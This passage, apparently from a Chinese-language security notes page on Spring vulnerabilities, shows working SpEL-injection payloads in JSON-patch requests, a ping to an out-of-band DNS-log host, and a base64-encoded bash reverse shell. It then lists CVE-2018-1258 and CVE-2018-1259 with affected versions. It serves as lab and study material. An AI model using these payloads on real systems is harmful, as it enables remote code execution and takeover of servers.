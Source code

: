 利用POC执行：

```


1.  `[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String('ping xxx.ceye.io'))/lastname", "value": "vulhub" }]`


```

反弹shell，其中反弹shell命令需要借助编码来减少重定向出错的问题[java.lang.Runtime.exec() Payload Workarounds](http://www.jackson-t.ca/runtime-exec-payloads.html)：

```


1.  `[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94LngueC54Lzg4OTkgMD4mMQ==}|{base64,-d}|{bash,-i}'))/lastname", "value": "vulhub" }]`


```

![image-20200331114458798](https://github-1300513062.cos.ap-shanghai.myqcloud.com/img/20200401131657.png)

![image-20200331115328723](https://github-1300513062.cos.ap-shanghai.myqcloud.com/img/20200401131700.png)

### [](#CVE-2018-1258-Spring-Security未经授权的访问 "CVE-2018-1258 Spring Security未经授权的访问")CVE-2018-1258 Spring Security未经授权的访问

影响版本：Spring Framework 5.0.5.RELEASE和Spring Security（任何版本）

暂无详细信息

### [](#CVE-2018-1259-具有XMLBeam的Spring-DataXXE "CVE-2018-1259 具有XMLBeam的Spring DataXXE")CVE-2018-1259 具有XMLBeam的Spring DataXXE

影响版本：

```


1.  `XMLBeam 1.4.14或更早版本结合使用的Spring Data Commons`
2.  `Spring Data Commons 1.13至1.13.11（Ingalls SR11）`
3.  `Spring Data REST 2.6至2.6.11（Ingalls SR11）`
4.  `Spring Data Commons 2.0至2.0.6（Kay SR6）`
5.  `Spring Data REST 3.0至3.0.6（Kay SR6）`


```

[http://www.polaris-lab.com/index.php/tag/CVE-2018-1259/](http://www.polaris-lab.com/index.php/tag/CVE-2018-1259/)
